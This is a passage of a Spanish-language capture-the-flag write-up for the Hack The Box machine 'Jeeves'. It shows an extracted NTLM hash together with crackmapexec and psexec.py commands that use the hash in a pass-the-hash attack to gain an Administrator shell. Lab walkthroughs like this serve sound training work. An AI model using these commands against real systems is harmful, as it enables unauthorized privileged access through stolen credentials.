     ```bash
    aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
    
    NT -> Para intentar realizar un Pash The Hash
    			-> e0fb1fb85756c24235ff238cbe81fe00 <-
    ```
    
    > “*Un ataque de pase de hash es un exploit en el que un atacante roba una credencial de usuario con hash y, sin descifrarla, la reutiliza para engañar a un sistema de autenticación para que cree una nueva sesión autenticada en la misma red.”*
    > 
- Vemos que usuarios tenemos en windows.
    
    ![Untitled](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Jeeves/Untitled%2025.png)
    
- A través de la herramienta `crackmapexec` y mediante el protocolo `smb`, sabiendo que el usuario `Administrator` esta en el sistema e indicándole el hash extraído antes, vamos a comprobar si podemos utilizar dicho hash para autenticarnos como ese usuario.
    
    ```bash
    crackmapexec smb 10.10.10.63 -u 'Administrator' -H 'e0fb1fb85756c24235ff238cbe81fe00'
    ```
    
    - **Pwn3d!**
    
    ![Untitled](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Jeeves/Untitled%2026.png)
    
- Mediante la herramienta `psexec` y a traves del `WORKGROUP` y con el usuario y hash anterior vamos a ejecutar una shell de sistema privilegiada.
    
    ```bash
    psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes :e0fb1fb85756c24235ff238cbe81fe00
    ```
    